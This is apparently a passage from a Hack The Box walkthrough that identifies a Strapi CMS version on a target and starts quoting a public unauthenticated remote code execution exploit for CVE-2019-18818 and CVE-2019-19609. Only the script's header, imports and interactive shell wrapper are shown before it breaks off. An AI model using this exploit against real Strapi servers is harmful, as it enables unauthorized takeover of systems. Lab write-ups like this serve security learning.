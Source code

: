 ###Found Some interesting directories, and also find a login page 
![login page](https://github.com/sigwotts/HTB-Walkthrough/blob/main/Horizontal/Main%20page.png)

##After some research we managed to find the version of strapi 
```
Strapi version 3.0.0-beta.17.7
```

##The version of strapi is having 
```
# Exploit Title: Strapi CMS 3.0.0-beta.17.4 - Remote Code Execution (RCE) (Unauthenticated)
# Date: 2021-08-30
# Exploit Author: Musyoka Ian
# Vendor Homepage: https://strapi.io/
# Software Link: https://strapi.io/
# Version: Strapi CMS version 3.0.0-beta.17.4 or lower
# Tested on: Ubuntu 20.04
# CVE : CVE-2019-18818, CVE-2019-19609

#!/usr/bin/env python3

import requests
import json
from cmd import Cmd
import sys


if len(sys.argv) != 2:
    print("[-] Wrong number of arguments provided")
    print("[*] Usage: python3 exploit.py <URL>\n")
    sys.exit()


class Terminal(Cmd):
    prompt = "$> "
    def default(self, args):
        code_exec(args)

def check_version():
    global url
```